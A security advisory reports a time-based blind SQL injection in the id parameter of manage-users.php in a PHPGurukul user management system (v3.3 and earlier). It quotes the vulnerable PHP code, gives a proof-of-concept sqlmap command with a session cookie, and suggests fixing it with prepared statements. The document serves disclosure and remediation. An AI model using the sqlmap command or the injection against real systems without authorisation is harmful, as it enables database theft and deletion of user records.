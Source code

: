 # 📌 Time-Based SQL Injection in manage-users.php of User Registration & Login and User Management System With Admin Panel <= v3.3


**👨‍💻 BUG Author:**  

### 4m3rr0r

---

## 📦 Product Information

- **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)  
- **Software Link:** [https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)  
- **Affected Version:** <= v3.3  
- **BUG Author:** 4m3rr0r  
 

---

## 🛠 Vulnerability Details

### 🧨 Vulnerability Type

**SQL Injection** (Time-Based Blind)  
**CWE ID:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html)

---

### 🧬 Root Cause

The vulnerable code directly interpolates unvalidated user input (`$_GET['id']`) into a SQL query without using prepared statements, leading to SQL injection.

```php
$adminid=$_GET['id'];
$msg=mysqli_query($con,"delete from users where id='$adminid'");
```

---

### ⚠️ Impact

An authenticated attacker can exploit the `id` parameter in `manage-users.php` to:

- Enumerate the database
- Dump sensitive data (users, passwords)
- Delete arbitrary users
- Escalate privileges (via UNION SELECT or stacked queries)

---

### 📋 Description

The application does not sanitize the `id` parameter in the admin panel (`manage-users.php`). This allows attackers to inject arbitrary SQL queries using time-based blind techniques to bypass filters and extract information from the database.

---

### 🔬 Proof of Concept

A logged-in attacker can run the following SQLMap command:

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/manage-users.php?id=1" \
--cookie="PHPSESSID=pakmg0q2gnmjag2514g76fdmtd" \
--risk=3 --level=5 --dbs
```

![sqlmap](./Images/2025-07-11_01-53.png)

---

## 🛡 Suggested Remediation

Replace dynamic SQL queries with parameterized statements. Example using `mysqli_prepare`:

```php
$stmt = $con->prepare("DELETE FROM users WHERE id = ?");
$stmt->bind_param("i", $adminid);
$stmt->execute();
```

---

## 🔐 Security Recommendations

- Use prepared statements or ORM (Object Relational Mapper)
- Enforce strict input validation (e.g., numeric only for `id`)
- Apply least privilege principle to DB user accounts
- Enable logging, monitoring, and regular code reviews

---

## 📚 References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

